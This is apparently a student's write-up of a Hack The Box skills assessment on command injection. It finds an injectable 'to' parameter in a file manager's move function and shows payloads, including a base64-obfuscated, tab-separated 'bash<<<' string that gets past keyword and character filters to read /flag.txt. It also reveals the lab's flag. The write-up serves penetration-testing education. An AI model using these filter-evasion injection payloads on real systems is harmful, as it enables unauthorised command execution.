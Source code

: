 ```yaml
---
sticker: emoji//1f4bb
---
```

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.


![[Pasted image 20250205145850.png]]

## Reconnaissance
---

Once we've authenticated, we can see the following:

![[Pasted image 20250205145916.png]]

We got a lot of functions in this page, being:

```ad-summary
1. Direct Link
2. Preview
3. Copy to
4. Download
```

After checking each of them, I found the following in the `Copy to` function:

![[Pasted image 20250205150700.png]]

We have a `Copy` and `Move` function in this page, they go by the following parameters:

Copy:
```
/index.php?to=&from=51459716.txt&finish=1
```

Move:

```
/index.php?to=&from=51459716.txt&finish=1&move=1 
```

In the move URL, if we modify the to value to empty, we can see the following:

![[Pasted image 20250205153325.png]]

Which means, it could be vulnerable to command injection, let's try sending a simple payload like:

```
/index.php?to=&from=51459716.txt;uname&finish=1&move=1
```

We will see the following:

![[Pasted image 20250205153433.png]]

This is indeed vulnerable to command injection, let's craft our payload to read the flag.

## Exploitation
---

Commands like `cat`, `mv` and `ls` are blocked, we need to bypass them using what we've learned in this module, let's do the following payload:

```
%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)
```

```ad-important
#### Breakdown
---
### **1. URL Decoding First**

- `%7C%7C` → `||` (double pipe operator in Linux).
    
- `%09` → Tab character (used to replace spaces).
    

Decoded payload:


`||bash<<<$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`


---

### **2. Command Structure**

- **`||`**: Execute the second command **regardless** of whether the first command (`mv`, in the original app) succeeds or fails.
    
- **`bash<<<`**: Pass the following string as input to `bash` for execution.
    

---

### **3. Decoding the Base64 String**

The inner command is:

`$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`

- **`base64 -d`**: Decodes a Base64-encoded string.
    
- **`<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK`**: Passes the Base64 string to `base64 -d`.
    

**Decoding the Base64**:


`echo "Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK" | base64 -d`

**Result**:

`cat ${PATH:0:1}flag.txt`

---

### **4. Breaking Down the Final Command**

The decoded command is:

`cat ${PATH:0:1}flag.txt`

- **`${PATH:0:1}`**: Extracts the first character of the `PATH` environment variable (which is `/`).
    
    - Example: If `PATH=/usr/local/bin:/usr/bin`, `${PATH:0:1}` → `/`.
        
- **Result**: `cat /flag.txt`.
    

---

### **5. Why Use These Techniques?**

- **`||`**: Bypasses command injection filters by executing regardless of the first command's success.
    
- **`base64`**: Obfuscates the command to bypass keyword filters (e.g., `cat`, `/`).
    
- **`${PATH:0:1}`**: Avoids using `/` directly (common blacklisted character).
    
- **`%09` (tab)**: Replaces spaces to bypass space filters.
    

---

### **Full Payload Flow**

1. The app runs `mv [file] [to]`.
    
2. The payload injects `||bash<<<$(base64 -d<<<...)`.
    
3. The Base64 string decodes to `cat /flag.txt`.
    
4. `bash` executes the decoded command, printing the flag.
```

If we needed to look around for the flag, we'd need to use more payloads, since this is not needed, we can simply use this one.

So, let's send it like this:

```
http://94.237.54.42:31196/index.php?to=%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)&from=51459716.txt&finish=1&move=1
```

We will see the following output:

![[Pasted image 20250205153914.png]]

Flag is `HTB{c0mm4nd3r_1nj3c70r}`

![[Pasted image 20250205154011.png]]

